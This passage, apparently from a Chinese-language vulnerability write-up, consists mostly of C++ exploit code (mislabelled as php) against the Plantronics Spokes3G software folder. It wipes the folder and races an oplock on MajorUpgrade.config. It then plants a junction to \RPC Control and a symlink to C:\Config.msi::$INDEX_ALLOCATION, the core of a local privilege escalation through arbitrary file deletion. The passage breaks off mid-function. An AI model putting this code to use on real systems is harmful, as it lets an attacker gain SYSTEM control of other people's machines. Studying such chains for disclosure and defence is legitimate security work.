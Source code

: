 此处进行机会锁函数回调：

```php
VOID cb0() {
    printf("[+] Oplock 1 triggered!\n");
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)Fail, NULL, 0, NULL);
    if (!Move(hFile2)) {
        exit(1);
    }
    if (!CreateJunction(BuildPath(dir), L"\\RPC Control")) {
        printf("[!] Exiting!\n");
        exit(1);
    }
    if (!DosDeviceSymLink(L"GLOBAL\\GLOBALROOT\\RPC Control\\MajorUpgrade.config", L"\\??\\C:\\Config.msi::$INDEX_ALLOCATION")) {
        printf("[!] Exiting!\n");
        exit(1);
    }

}

void Trigger() {
    _swprintf(dir, L"C:\\ProgramData\\Plantronics\\Spokes3G");
    _swprintf(file, L"%s\\MajorUpgrade.config", dir);
    DeleteContentsRecursively(dir);

    FileOpLock* oplock;
    do {
        hFile2 = CreateFile(file, GENERIC_READ | DELETE, FILE_SHARE_READ, NULL, CREATE_ALWAYS, FILE_FLAG_OVERLAPPED, NULL);
    } while (hFile2 == INVALID_HANDLE_VALUE);

    printf("[+] File %ls created!\n", file);
    oplock = FileOpLock::CreateLock(hFile2, cb0);
    if (oplock != nullptr) {
        oplock->WaitForLock(INFINITE);
        delete oplock;
    }
}
```

清除目录来进行连接点转换：

```php
void DeleteContentsRecursively(const std::wstring& path) {
    WIN32_FIND_DATAW findFileData;
    HANDLE hFind = INVALID_HANDLE_VALUE;
    std::wstring searchPath = path + L"\\*";

    hFind = FindFirstFileW(searchPath.c_str(), &findFileData);

    if (hFind != INVALID_HANDLE_VALUE) {
        do {
            if ((wcscmp(findFileData.cFileName, L".") != 0) && (wcscmp(findFileData.cFileName, L"..") != 0)) {
                std::wstring filePath = path + L"\\" + findFileData.cFileName;
                if (findFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
                    DeleteContentsRecursively(filePath);
                    RemoveDirectoryW(filePath.c_str());
                    wprintf(L"Deleted folder: %ls\n", filePath.c_str());
                }
                else {
                    if (DeleteFileW(filePath.c_str())) {
                        wprintf(L"Deleted file: %ls\n", filePath.c_str());
                    }
```